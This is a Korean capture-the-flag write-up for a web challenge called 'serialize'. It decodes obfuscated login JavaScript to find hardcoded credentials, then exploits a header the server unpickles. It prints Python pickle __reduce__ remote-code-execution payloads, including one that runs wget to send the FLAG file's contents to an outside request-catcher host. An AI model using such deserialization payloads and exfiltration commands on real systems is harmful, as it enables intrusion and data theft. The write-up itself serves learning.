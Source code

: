 # serialize

먼저 웹서버에 접속하면 간단한 로그인 창이 나온다.
그리고 개발자 도구를 켜면 script에 jsfuck으로 인코딩 된 문자열을 확인 가능하다.

<img src="image1.png">

해당 문자를 디코딩하면 다음과 같다.

```
const _0x3645b3 = _0x4842;
function _0x4842(_0x19d358, _0x49968c) {
	const _0x2ad82b = _0x2ad8();
	return (
		(_0x4842 = function (_0x484299, _0x4da982) {
			_0x484299 = _0x484299 - 0x1f1;
			let _0x4c8636 = _0x2ad82b[_0x484299];
			return _0x4c8636;
		}),
		_0x4842(_0x19d358, _0x49968c)
	);
}
(function (_0x4ff4ae, _0x561f72) {
	const _0x2b38fa = _0x4842,
		_0x2d072e = _0x4ff4ae();
	while (!![]) {
		try {
			const _0x20be76 =
				parseInt(_0x2b38fa(0x1f5)) / 0x1 +
				(-parseInt(_0x2b38fa(0x206)) / 0x2) *
					(parseInt(_0x2b38fa(0x205)) / 0x3) +
				parseInt(_0x2b38fa(0x202)) / 0x4 +
				-parseInt(_0x2b38fa(0x1ff)) / 0x5 +
				(-parseInt(_0x2b38fa(0x1fd)) / 0x6) *
					(parseInt(_0x2b38fa(0x201)) / 0x7) +
				-parseInt(_0x2b38fa(0x1f2)) / 0x8 +
				(parseInt(_0x2b38fa(0x1fa)) / 0x9) * (parseInt(_0x2b38fa(0x1f9)) / 0xa);
			if (_0x20be76 === _0x561f72) break;
			else _0x2d072e['push'](_0x2d072e['shift']());
		} catch (_0x1a16c9) {
			_0x2d072e['push'](_0x2d072e['shift']());
		}
	}
})(_0x2ad8, 0xbdbb4);
const form = document[_0x3645b3(0x1fe)](_0x3645b3(0x200));
async function submitForm(_0x361a11) {
	const _0xbae53f = _0x3645b3,
		_0x261004 = await fetch(_0xbae53f(0x203), {
			method: 'POST',
			body: JSON[_0xbae53f(0x208)](_0x361a11),
			headers: { 'Content-Type': _0xbae53f(0x1f4) }
		});
	window[_0xbae53f(0x1f7)] = '/welcome.png';
}
form[_0x3645b3(0x1f8)](_0x3645b3(0x1f6), _0x3f6721 => {
	const _0x43e2d2 = _0x3645b3;
	_0x3f6721[_0x43e2d2(0x1f1)]();
	const _0x451641 = document[_0x43e2d2(0x204)](_0x43e2d2(0x1fc)),
		_0x12fab0 = document['getElementById'](_0x43e2d2(0x207));
	_0x451641[_0x43e2d2(0x1fb)] == 'dreky' &&
	_0x12fab0['value'] == 'ohyeahboiiiahhuhh'
		? submitForm({
				user: _0x451641['value'],
				pass: _0x12fab0[_0x43e2d2(0x1fb)]
		  })
		: alert(_0x43e2d2(0x1f3));
});
function _0x2ad8() {
	const _0x5aa71f = [
		'2115056nOLZur',
		'Invalid\x20username\x20or\x20password',
		'application/json',
		'206204rQEQbe',
		'submit',
		'location',
		'addEventListener',
		'4252550HZZkfV',
		'18etmbIj',
		'value',
		'username',
		'43194hBWQRV',
		'querySelector',
		'5935145KtOSgP',
		'.login-form',
		'238aTVShg',
		'6015272rbWZkU',
		'/login',
		'getElementById',
		'15cVIXSQ',
		'34886FmgdQH',
		'password',
		'stringify',
		'preventDefault'
	];
	_0x2ad8 = function () {
		return _0x5aa71f;
	};
	return _0x2ad8();
}

```

딱보면 수상한 문자열 dreky와 ohyeahboiiiahhuhh이 보이는데 해당 문자열을 아이디와 비밀번호로 로그인하면 /welcome.png를 볼 수 있다.
근데 여기선 딱히 의심되는 부분이 없어서 네트워크를 살펴본 결과 중간에 `/oH_y0u_F0unD_1t_19167`로 요청을 보내는걸 확인 가능했다.

<img src="image2.png">

<img src="image3.png">

해당 링크에 들어가면은 첫번째 FLAG를 발견 가능하다. `E4HX{oh_h3l1_`
그다음 볼 부분이 part1_style.css를 갖고오고 있는데 해당 css파일에서 또다른 경로를 발견할 수 있었다.

![alt text](image4.png)
그리고 해당 링크에 요청을 보내면 응답 헤더에 `X-Serialize-Token`이 포함된 걸 볼 수 있다.

![alt text](image5.png)

해당 헤더에 있는 `gASVIAAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjAVkcmVreZSFlFKULg==`을 base64 decode해서 보면은 대충 python pickle 직렬화된 내용인걸 확인 가능하다.

그리고 요청 헤더에 `X-Serialize-Token`을 지정해서 보내면 해당 헤더를 deserizlie하는것도 알 수 있었다.
그러면 악성 코드를 pickle serizlie 하면 되는데 pickle deserialize할 때 가장 유명하게 사용되는 `__reduce__`를 사용했다.
reduce 메소드는 파이썬 객체를 unpickling할 때 tuple을 반환해 주는 메서드인데 아무 검증 없이 unpickling하기에 여기에 악성 코드를 담으면 된다.<br>
참고 : https://hoppipolla0507.tistory.com/22

ex)

```
import pickle
import base64
import os
import requests

class RCE:
    def __reduce__(self):
        return (os.system, ("ls",))

payload = pickle.dumps(RCE())
print(base64.b64encode(payload))
```

![alt text](image6.png)

리턴값이 0이 나온건 제대로 실행된 걸 확인 가능하다.
최종 payload는 아래와 같다.

```
import pickle
import base64
import os
import requests

class RCE:
    def __reduce__(self):
        return (os.system, ("wget https://jdhusai.request.dreamhack.games/$(cat FLAG)",))

payload = pickle.dumps(RCE())
print(base64.b64encode(payload).decode())
```

![alt text](image7.png)

`FLAG : E4HX{oh_h3l1_n44www_y0u_8r0k3_5th_w4l1}`
